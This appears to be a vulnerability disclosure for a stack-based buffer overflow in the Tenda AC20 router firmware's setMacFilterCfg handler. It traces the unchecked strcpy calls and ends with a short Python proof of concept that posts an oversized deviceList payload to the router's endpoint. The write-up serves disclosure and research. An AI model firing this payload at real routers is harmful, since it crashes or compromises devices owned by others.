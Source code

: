 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_46A2AC`)

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `deviceList` parameter in the `formSetMacFilterCfg` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `deviceList` parameter is retrieved via `websGetVar` in `formSetMacFilterCfg` and passed to `sub_46A2AC` for rule processing.

2.  **Rule Parsing**: `sub_46A2AC` splits `deviceList` by newline characters (`\n`) and iterates over each entry, passing them to `sub_46A8F8` for individual rule handling.

3.  **Data Extraction**: `sub_46A8F8` calls `sub_46BC10` to parse each entry. `sub_46BC10` uses `strchr` to split the entry by carriage return (`\r`), separating it into a "name" part (before `\r`) and a "MAC address" part (after `\r`).

4.  **Unsafe Copy**: Critical unsafe operations occur in `sub_46BC10`:

*   `strcpy(a2 + 32, a1)`: Copies the "name" part (user-controlled) into a 32-byte offset of a fixed-size stack buffer (`v5` in `sub_46A8F8`, size 160 bytes).

*   `strcpy(a2, v4)`: Copies the "MAC address" part (user-controlled) into the start of the same buffer.

Neither `strcpy` call validates the length of the input against the buffer size. If the "name" or "MAC address" parts exceed the remaining buffer space, they overflow the stack buffer, overwriting adjacent memory (including return addresses, saved registers, and other critical stack data).
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
![PoC 2 Result: Root Directory Listing](./imgs/4.png)

## PoC: Python Exploit Script


```
from pwn import \*
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

